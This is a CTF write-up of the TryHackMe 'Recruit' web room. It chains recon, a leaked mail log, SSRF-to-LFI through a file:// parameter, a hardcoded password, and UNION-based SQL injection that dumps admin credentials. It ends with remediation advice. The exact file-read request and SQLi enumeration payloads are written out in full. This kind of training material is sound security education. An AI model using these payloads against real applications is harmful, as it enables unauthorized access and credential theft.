




# Write-Up — TryHackMe: Recruit — SSRF to LFI to SQL Injection to Admin Takeover

> **Room:** [TryHackMe — Recruit](https://tryhackme.com/room/recruitwebchallenge)
> **Type:** Web Application Penetration Test (CTF)
> **Target:** `recruit.thm` (`10.129.173.201`)
> **Tools:** Nmap, Gobuster, curl, Burp/manual request crafting
> **Final Result:** Full admin takeover of a recruitment portal via a chained path: an internal mail log leak → SSRF-driven Local File Inclusion → hardcoded HR credentials → SQL injection in the candidate search feature → dumped admin credentials

---

## 1. Introduction

Recruit is a web-application-focused room built around a fictional recruitment portal. Rather than a single standout vulnerability, the room is a deliberate exercise in **vulnerability chaining**: no individual flaw grants full access on its own, but each one unlocks the information needed for the next step, ending in complete administrative control of the application.

This write-up documents the full path:

1. **Reconnaissance** — port scan and directory brute-force to map the attack surface.
2. **Information disclosure** — an exposed mail log revealing internal deployment notes.
3. **SSRF → Local File Inclusion** — an unrestricted `file.php?cv=` parameter used to read server-side source code via the `file://` wrapper.
4. **Hardcoded credentials** — an HR password left in a PHP configuration file "temporarily."
5. **SQL injection** — a classic, unsanitized search parameter exploited through UNION-based injection to enumerate the database and dump the `users` table.
6. **Admin takeover** — login with the dumped administrator credentials and capture of both room flags.

---

## 2. Reconnaissance

### 2.1 Port Scan

```bash
ports=$(nmap -p- --min-rate=1000 -T4 10.129.173.201 | grep '^[0-9]' | cut -d '/' -f 1 | tr '\n' ',' | sed s/,$//)
echo $ports
```
```
22,53,80
```

```bash
nmap -p$ports -sC -sV 10.129.173.201
```

```
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   3072 fd:4c:44:83:38:07:c0:ac:99:6b:28:bb:bc:8a:92:88 (RSA)
|   256 68:02:9b:85:10:9a:a8:33:e8:8c:61:dc:16:01:23:ef (ECDSA)
|_  256 f7:5e:79:8f:8e:2b:49:87:97:ba:48:30:37:83:ab:50 (ED25519)
53/tcp open  domain  ISC BIND 9.16.1 (Ubuntu Linux)
| dns-nsid:
|_  bind.version: 9.16.1-Ubuntu
80/tcp open  http    Apache httpd 2.4.41 (Ubuntu)
|_http-title: Recruit
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Three ports open: **SSH**, **DNS**, and **HTTP**. The web application (titled "Recruit") on port 80 is the obvious focus — no credentials are available for SSH, and the DNS service is a secondary enumeration target at most.


### 2.2 Directory Brute-Force

```bash
gobuster dir -u http://recruit.thm -w /usr/share/wordlists/dirb/common.txt \
  -x php,html,txt,bak,js -t 40
```

```
.htaccess           (Status: 403)
api.php              (Status: 200) [Size: 14151]
assets               (Status: 301) [--> http://10.129.173.201/assets/]
config.php            (Status: 200) [Size: 0]
dashboard.php         (Status: 302) [--> index.php]
file.php              (Status: 200) [Size: 289]
footer.php            (Status: 200) [Size: 20]
header.php            (Status: 200) [Size: 457]
index.php             (Status: 200) [Size: 1417]
javascript             (Status: 301) [--> http://10.129.173.201/javascript/]
logout.php            (Status: 302) [--> index.php]
mail                  (Status: 301) [--> http://10.129.173.201/mail/]
phpmyadmin             (Status: 301) [--> http://10.129.173.201/phpmyadmin/]
server-status          (Status: 403)
sitemap.xml            (Status: 200) [Size: 1710]
```


Several endpoints stand out immediately:

- **`/mail`** — likely contains internal correspondence or logs.
- **`/api`** / **`api.php`** — a separate API surface worth probing independently.
- **`/phpmyadmin`** — a database management interface, interesting if reachable without auth or with weak credentials.
- **`file.php`** — the name alone suggests file handling, a common source of LFI/SSRF bugs.

---

## 3. Information Disclosure — Mail Log

Following up on the `/mail` directory:

```bash
curl -i http://recruit.thm/mail/mail.log
```

```
HTTP/1.1 200 OK
Date: Sat, 07 Nov 2026 22:24:45 GMT
Server: Apache/2.4.41 (Ubuntu)
Last-Modified: Thu, 18 Dec 2025 08:28:11 GMT
ETag: "698-646359bdbc8099"
Accept-Ranges: bytes
Content-Length: 1680

May 14 09:32:12 recruit-server postfix/smtpd[2143]: connect from hr-workstation.local[10.10.5.23]
May 14 09:32:12 recruit-server postfix/smtpd[2143]: client=hr-workstation.local[10.10.5.23]
May 14 09:32:13 recruit-server postfix/cleanup[2146]: message-id=<2024051409...@recruit.local>
May 14 09:32:13 recruit-server postfix/qmgr[1789]: 4F1A2203F: from=<hr@recruit.thm>, size=1824, nrcpt=1 (queue active)
May 14 09:32:14 recruit-server postfix/local[2151]: 4F1A2203F: to=<it-support@recruit.local>, relay=local, delay=0.34, status=sent
-----------------------------------------------------------
From: HR Team <hr@recruit.thm>
To: IT Support <it-support@recruit.thm>
Date: Tue, 14 May 2024 09:32:10 +0000
Subject: Recruitment Portal Deployment Confirmation

Hi Team,

Just a quick update to confirm that the new Recruitment Portal
has been deployed successfully and is functioning as expected.

We've completed basic validation:
- Login page is accessible
- Candidate dashboard loads correctly
- API documentation page is live

As discussed during deployment:
- HR login credentials (username: hr) are currently stored in the application
  configuration file (config.php) for ease of access during
  the initial rollout phase.
- Administrator credentials are NOT stored in the application
  files and are securely maintained within the backend database.

Please let us know if there are any issues or if further changes
are required.

Thanks,
HR Operations
Recruitment Team
-----------------------------------------------------------
```


This single file is the key that unlocks the rest of the chain. It confirms, in plain language:

- A valid username: **`hr`**
- That the HR password is sitting in **`config.php`**, described as a "temporary" rollout measure
- That admin credentials are **not** in the files — they live in the database, which rules out repeating the same trick for admin and foreshadows the eventual need for SQL injection

---

## 4. SSRF → Local File Inclusion

### 4.1 Locating the Vulnerable Parameter

Probing the `/api` surface and `file.php` revealed a parameter clearly intended to fetch a candidate's CV from a remote or local path:

```
file.php?cv=<URL>
```

Accepting an arbitrary URL for a "fetch this file" feature is a textbook **Server-Side Request Forgery** candidate — the server itself makes the request, so if the scheme/host isn't restricted, it can be pointed at internal resources, including the local filesystem.

### 4.2 Confirming Local File Access

```bash
curl -i "http://recruit.thm/file.php?cv=file:///var/www/html/config.php"
```

The `file://` wrapper — rather than `http://` — was accepted without restriction, meaning the SSRF sink escalates directly to **Local File Inclusion**: arbitrary files readable by the web server process can be retrieved through this parameter.

```
HTTP/1.1 200 OK
Date: Sat, 07 Nov 2026 22:26:09 GMT
Server: Apache/2.4.41 (Ubuntu)
Content-Length: 991
Content-Type: text/plain;charset=UTF-8

<?php
/*
-------------------------------------------
  Application Configuration
-------------------------------------------
*/
$APP_NAME       = 'Recruit';
$APP_ENV        = 'production';
$APP_VERSION    = '1.2.4';
$APP_DEBUG      = false;

/*
-------------------------------------------
  HR Credentials (Temporary - Initial Rollout Phase)
-------------------------------------------
  NOTE:
  These credentials are stored here temporarily for ease of access
  during the initial deployment and will be moved to the database
  in a future release.
*/
$HR_PASSWORD = '[REDACTED]';

/*
-------------------------------------------
  API Configuration
-------------------------------------------
*/
$API_ENABLED    = true;
$API_VERSION    = 'v1';
```



This single request directly confirmed what the mail log had implied: the HR password is hardcoded in `config.php`, readable in full by anyone able to reach the `cv` parameter with a `file://` payload — no authentication required at any point in this step.

> **Severity: Critical.** SSRF combined with an unrestricted scheme handler is functionally equivalent to arbitrary local file disclosure. Combined with the earlier mail log leak telling an attacker exactly which file to request, this step required no guessing at all.

---

## 5. HR Login

With the username (`hr`, from the mail log) and the password (from `config.php`), the login form was used directly:

```
Username: hr
Password: [recovered from config.php]
```


Login succeeded, landing on the **Candidate Applications** dashboard and revealing the room's first flag:



> 🚩 **HR Flag captured** — format `THM{...}` (value redacted in this write-up; visible directly in-game upon reaching this step).

---

## 6. SQL Injection — Candidate Search

### 6.1 Identifying the Vulnerable Parameter

The HR dashboard includes a **candidate search** feature, submitting a `search` parameter server-side. This is immediately worth testing for injection, since it's the only user-controllable input on an otherwise static dashboard.

### 6.2 Confirming the Injection Point

A single quote was submitted as the search term:

```
'
```

```
SQL Error:
You have an error in your SQL syntax; check the manual that corresponds to your
MySQL server version for the right syntax to use near '%'' at line 1
```


The error message itself leaks the shape of the backend query — the `%'` fragment strongly implies a `LIKE` clause wrapped in wildcard percent signs:

```sql
SELECT * FROM candidates WHERE name LIKE '%search_term%'
```

### 6.3 Confirming Full Control with a Boolean Payload

```
%' OR 1=1-- -
```

This returned all candidate records regardless of the actual search term, confirming the injected SQL executes exactly as written, with the trailing `-- -` comment neutralizing the rest of the original query.

### 6.4 Enumerating Column Count

```
%' UNION SELECT 1,2,3,4-- -
```


The query succeeded without a column-count error, and all four injected placeholder values (`1`, `2`, `3`, `4`) were reflected directly into the table's columns — confirming the underlying query selects **four columns**.

### 6.5 Enumerating the Current Database

```
%' UNION SELECT 1,2,3,database()-- -
```


This returned **`recruit_db`** as the active database name, confirming exactly which schema to target for further enumeration.

### 6.6 Enumerating Tables

```
%' UNION SELECT 1,table_name,3,4 FROM information_schema.tables WHERE table_schema='recruit_db'-- -
```

Returned table names including **`candidates`** and **`users`** — the latter being the obvious target for credential extraction.

### 6.7 Enumerating Columns

```
%' UNION SELECT 1,2,3,group_concat(column_name) FROM information_schema.columns WHERE table_name='users'-- -
```


This returned the full column list for `users`, including **`id`**, **`username`**, and **`password`** — everything needed for the final extraction query.

### 6.8 Dumping Credentials

```
%' UNION SELECT 1,2,3,group_concat(username,':',password SEPARATOR '<br>') FROM users-- -
```



This returned the administrator's username and password concatenated together in a single string, dumped directly through the vulnerable search field with no further authentication required.

> **Severity: Critical.** A single unsanitized search parameter, reachable by any authenticated HR user, allowed full enumeration of the backend database schema and extraction of administrator credentials — the exact outcome the deployment note in the mail log assumed was protected by "keeping admin credentials out of the files."

---

## 7. Admin Takeover

### 7.1 Logging Out of the HR Session

```
http://recruit.thm/logout.php
```


### 7.2 Logging In as Administrator

Using the username and password recovered from the `users` table dump:

```
Username: admin
Password: [recovered from SQL injection dump]
```

Login succeeded, landing on an elevated **Candidate Applications** view with full **Approve/Reject** actions available for every candidate — functionality not present in the HR-level view — and revealing the room's second flag:



> 🚩 **Admin Flag captured** — format `THM{...}` (value redacted in this write-up).

This completes the room: starting from zero credentials, the chain moved through an information leak, an SSRF-driven file read, a hardcoded password, and a SQL injection dump to reach full administrative control of the application.

---

## 8. Full Attack Chain

```
[ Recon: Nmap → 22 (SSH), 53 (DNS), 80 (HTTP) ]
       │
       ▼
[ Gobuster → /mail, /api, /phpmyadmin, file.php discovered ]
       │
       ▼
[ GET /mail/mail.log → HR username ("hr") + "password is in config.php" disclosed ]
       │
       ▼
[ file.php?cv=<url> identified as an SSRF sink ]
       │
       ▼
[ file.php?cv=file:///var/www/html/config.php → LFI via file:// wrapper ]
       │
       ▼
[ $HR_PASSWORD recovered from config.php ]
       │
       ▼
[ Login as hr → HR dashboard reached → HR flag captured ]
       │
       ▼
[ Candidate search parameter tested with ' → SQL error confirms injection ]
       │
       ▼
[ UNION-based injection: column count → database() → table names → column names ]
       │
       ▼
[ group_concat(username,':',password) FROM users → admin credentials dumped ]
       │
       ▼
[ Logout → login as admin → Approve/Reject controls unlocked → admin flag captured ]
```

**Lesson:** No single step in this room was individually "hard" — a leaked log file, an unrestricted URL-fetch parameter, a hardcoded password, and a textbook UNION-based SQL injection. The actual skill tested is **recognizing how each finding feeds the next one**, which is exactly how vulnerability chaining plays out in real engagements.

---

## 9. Security Issues Identified

| Vulnerability | Impact |
|---|---|
| Information Disclosure (`mail.log` publicly accessible) | Leaked valid username and the exact location of a hardcoded credential |
| Server-Side Request Forgery (`file.php?cv=`) | Enabled arbitrary local file reads via the `file://` scheme |
| Local File Inclusion (via the same sink) | Exposed full application source, including secrets |
| Hardcoded Credentials (`config.php`) | HR password stored in plaintext in a web-accessible file |
| SQL Injection (candidate search) | Full database enumeration and credential extraction |
| Broken Access Control | HR-level access was sufficient to pivot, via SQLi, all the way to administrator privileges |

---

## 10. Remediation Summary

| # | Finding | Severity | Remediation |
|---|---------|----------|--------------|
| 1 | `mail.log` served directly by the web server | **Medium** | Never place logs, backups, or internal correspondence inside the web root. Restrict access via server configuration if they must remain there temporarily. |
| 2 | `file.php?cv=` accepts arbitrary schemes including `file://` | **Critical** | Strictly validate and allowlist acceptable URL schemes (e.g., `https://` only) and target hosts for any server-side fetch feature; never pass user input directly into a file-read or HTTP-client function without validation. |
| 3 | HR password hardcoded in `config.php`, described internally as "temporary" | **High** | Never store credentials in source-accessible configuration files, even temporarily — use environment variables or a secrets manager from day one of deployment, not as a "future improvement." |
| 4 | Candidate search parameter vulnerable to SQL injection | **Critical** | Use parameterized queries/prepared statements for all database access; never concatenate user input directly into SQL strings. |
| 5 | Verbose SQL error messages returned to the client | **Medium** | Disable detailed database error output in production; log errors server-side and return generic messages to users. |
| 6 | HR-level access sufficient to escalate to admin via SQL injection | **High** | Apply defense in depth — even if the application layer is compromised, database-level least privilege (separate DB accounts per role, minimal grants) would have limited the blast radius of the injection. |

---

## 11. Conclusion

This room is a clean illustration of a principle that applies directly to real-world assessments: **individually "minor" findings compound.** A publicly accessible log file wouldn't score as more than a low/medium finding on its own — but it supplied the exact username and the exact filename needed to weaponize the SSRF/LFI bug a few steps later. The SQL injection, in isolation, "only" exposed the `users` table — but that table held the one thing none of the earlier steps could reach: valid administrator credentials.

The fix, as always, is layered: don't leak internal operational details in reachable files, validate every server-side fetch strictly, never hardcode secrets "temporarily," and use parameterized queries everywhere user input touches SQL. Any one of these fixes on its own would have broken this entire chain.

---

*Personal write-up based on hands-on completion of the [TryHackMe Recruit room](https://tryhackme.com/room/recruitwebchallenge). Flag values are redacted in all screenshots and text per TryHackMe's write-up guidelines — complete the room yourself to obtain them.*
